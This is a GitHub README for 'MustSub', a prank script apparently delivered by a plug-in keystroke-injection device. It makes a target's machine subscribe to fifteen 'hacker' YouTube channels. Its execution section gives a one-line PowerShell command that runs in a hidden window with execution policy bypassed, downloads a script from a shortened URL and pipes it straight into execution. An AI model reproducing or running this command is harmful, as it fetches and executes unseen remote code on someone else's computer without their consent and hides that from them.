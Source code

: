 
<img src="https://media.giphy.com/media/VgCDAzcKvsR6OM0uWg/giphy.gif" width="50"> 

<h1 align="center">
  <a href="https://git.io/typing-svg">
    <img src="https://readme-typing-svg.herokuapp.com/?lines=Welcome+to;MustSub!+😈&center=true&size=30">
  </a>
</h1>

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#getting-started">Getting Started</a></li>
    <li><a href="#Contributing">Contributing</a></li>
    <li><a href="#Version-History">Version History</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# Must Sub

A script used to get your target to subscribe to 15 of my favorite hacker YouTube channels. 

## Description

This script will loop through an array of URLs.

Each URL will be passed through the subscribe function.

## Getting Started

### Dependencies

* An internet connection
* Windows 10,11

<p align="right">(<a href="#top">back to top</a>)</p>

### Executing program

* Plug in your device
* Invoke-WebRequest will be entered in the Run Box to download and execute the dependencies and payload
```
powershell -w h -NoP -NonI -Ep Bypass irm https://tinyurl.com/MustSub2 | iex
```

<p align="right">(<a href="#top">back to top</a>)</p>

